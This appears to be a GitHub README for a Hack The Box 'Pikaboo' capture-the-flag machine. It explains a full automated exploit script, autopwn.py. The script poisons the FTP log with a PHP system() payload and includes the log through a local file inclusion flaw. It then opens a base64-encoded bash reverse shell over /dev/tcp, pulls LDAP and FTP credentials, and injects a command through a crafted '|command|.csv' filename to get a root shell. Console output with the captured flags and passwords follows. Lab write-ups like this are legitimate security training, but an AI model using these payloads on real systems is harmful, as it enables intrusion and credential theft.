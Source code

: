 # Hack The Box. Machines. Pikaboo

Machine write-up: https://7rocky.github.io/en/htb/pikaboo

### `autopwn.py`

This is a Python script that automates all the steps needed to compromise the machine. These are the steps:

- Log poisoning
- Shell as `www-data`
- System enumeration
- LDAP enumeration to get `pwnmeow`'s FTP password
- Store malicious file via FTP for command injection
- Shell as `root`

All these steps can be followed in the main function:

```python
def main():
    ftp = FTP(rhost)

    rev_shell = f'bash -i  >& /dev/tcp/{lhost}/{lport} 0>&1'.encode()
    command = f'echo {b64e(rev_shell)} | base64 -d | bash'

    shell = log_poisoning(ftp, command)
    user = user_enum(shell)
    ldap_user, ldap_password = ldap_enum(shell)

    log.info(f'Found LDAP user: {ldap_user}')
    log.info(f'Found LDAP password: {ldap_password}')

    ftp_password = ldap_search(shell, user, ldap_user, ldap_password)

    log.info(f'Found FTP password: {ftp_password}')

    shell = command_injection(ftp, user, ftp_password, command)
    root_flag(shell)

    log.success('Got shell as root')
    shell.interactive(prompt='')
```

First we define the reverse shell command as a Bash command encoded in Base64. Something like his:

```console
$ echo -n 'bash  -i >& /dev/tcp/10.10.17.44/4444 0>&1' | base64 
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTcuNDQvNDQ0NCAwPiYx
```

Then we use `log_poisoning` to obtain a shell as `www-data`:

```python
def log_poisoning(ftp, command: str):
    log_file = '/var/log/vsftpd.log'
    lfi_website = f'http://{rhost}/admin../admin_staging/index.php'
    log_poisoning_url = f'{lfi_website}?page={log_file}'

    try:
        ftp.login(f'<?php system("{command}"); ?>', 'asdf')
    except error_perm:
        log.info(f'FTP log ({log_file}) has been poisoned')
        sleep(5)

    Thread(target=requests.get, args=(log_poisoning_url, )).start()

    return listen_for_shell()
```

What it does is basically login to FTP with a username that contains PHP code, and then use an LFI vulnerability to include the FTP log file and execute the PHP code (which contains a system command with the reverse shell).

The function `listen_for_shell` does what its name says:

```python
def listen_for_shell(timeout: int = 20):
    shell = listen(lport, timeout=timeout).wait_for_connection()

    if shell.sock is None:
        log.error(f'Could not to connect to {rhost}')

    return shell
```

After obtaining a shell, we get the `pwnmeow` username and capture the `user.txt` flag:

```python
def user_enum(shell) -> str:
    shell.sendlineafter(b'$', b'ls /home')
    shell.recvline()
    user = shell.recvline().decode().strip()

    log.info(f'Found user: {user}')
    sleep(1)

    shell.sendline(f'cat /home/{user}/user.txt'.encode())
    shell.recvline()
    user_txt = shell.recvline().decode().strip()

    log.warning(f'Found user.txt: {user_txt}')
    sleep(1)

    return user
```

Then, we find some LDAP credentials in file `/opt/pokeapi/config/settings.py` (read the [write-up](https://7rocky.github.io/en/htb/pikaboo) for more information). We need to use some regular expressions to extract the desired values:

```python
def ldap_enum(shell) -> Tuple[str]:
    shell.sendline(b'cat /opt/pokeapi/config/settings.py')
    shell.recvuntil(b'DATABASE')
    settings = shell.recv(2048, timeout=2).decode()

    ldap_settings = re.findall(r'''
\s+"ldap": {
    \s+"ENGINE": ".*?",
    \s+"NAME": ".*?",
    \s+"USER": "(.*?)",
    \s+"PASSWORD": "(.*?)",
\s+}''', settings)

    ldap_user, ldap_password = ldap_settings[0]
    return ldap_user, ldap_password
```

Once we have credentials for LDAP, we can use `ldapsearch` command using the function `ldap_search` (again, read the [write-up](https://7rocky.github.io/en/htb/pikaboo) for more details). Regular expressions are needed too:

```python
def ldap_search(shell, user: str, ldap_user: str, ldap_password: str) -> str:
    base = 'dc=ftp,dc=pikaboo,dc=htb'
    ldapsearch = f"ldapsearch -xD {ldap_user} -w '{ldap_password}' -b {base}"

    shell.sendline(ldapsearch.encode())
    shell.recvuntil(user.encode())
    res = shell.recv(2048, timeout=2).decode()

    ftp_password_enc = re.findall(r'userPassword:: (.*?)$', res, re.MULTILINE)
    return b64d(ftp_password_enc[0]).decode()
```

Finally, we perform a command injection into a Cron task exploiting a Perl open argument injection vulnerability.

To make this action work, the file must be crafted in a singular way and uploaded to a directory inside `/srv/ftp`. And this task must be done using Python's `ftplib` library and instructions (find library documentation [here](https://docs.python.org/3/library/ftplib.html)).

To create the malicious file, a system command (namely, `os.system`) must be used to avoid errors. Afterwards, the file is removed with another system command.

```python
def command_injection(ftp, ftp_user: str, ftp_password: str, command: str):
    filename = f'|{command}|.csv'
    os.system(f"touch '{filename}'")

    ftp.login(ftp_user, ftp_password)

    dirs = []
    ftp.dir(dirs.append)
    directory = dirs[0].split()[-1]

    ftp.cwd(directory)

    ftp.storlines(f'STOR {filename}', open(filename))
    log.info('Stored malicious file with injected command in filename')

    os.system(f"rm '{filename}'")
    ftp.close()

    return listen_for_shell(timeout=120)
```

Additionally, we have another function to capture the `root.txt` flag:

```python
def root_flag(shell):
    shell.sendlineafter(b'#', b'cat /root/root.txt')
    shell.recvline()
    root_txt = shell.recvline().decode().strip()

    log.warning(f'Found root.txt: {root_txt}')
```

Finally, we can execute the _script_ and compromise the machine with just one click:

```console
$ python3 autopwn.py 10.10.17.44
[*] FTP log (/var/log/vsftpd.log) has been poisoned
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.10.10.249 on port 47390
[*] Found user: pwnmeow
[!] Found user.txt: f3417b113fe715a58e02f9e29fe6c736
[*] Found LDAP user: cn=binduser,ou=users,dc=pikaboo,dc=htb
[*] Found LDAP password: J~42%W?PFHl]g
[*] Found FTP password: _G0tT4_C4tcH_'3m_4lL!_
[*] Stored malicious file with injected command in filename
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.10.10.249 on port 47396
[!] Found root.txt: 3904cd5b02fd88be5264107d52282460
[+] Got shell as root
[*] Switching to interactive mode
root@pikaboo:/srv/ftp/abilities#
```
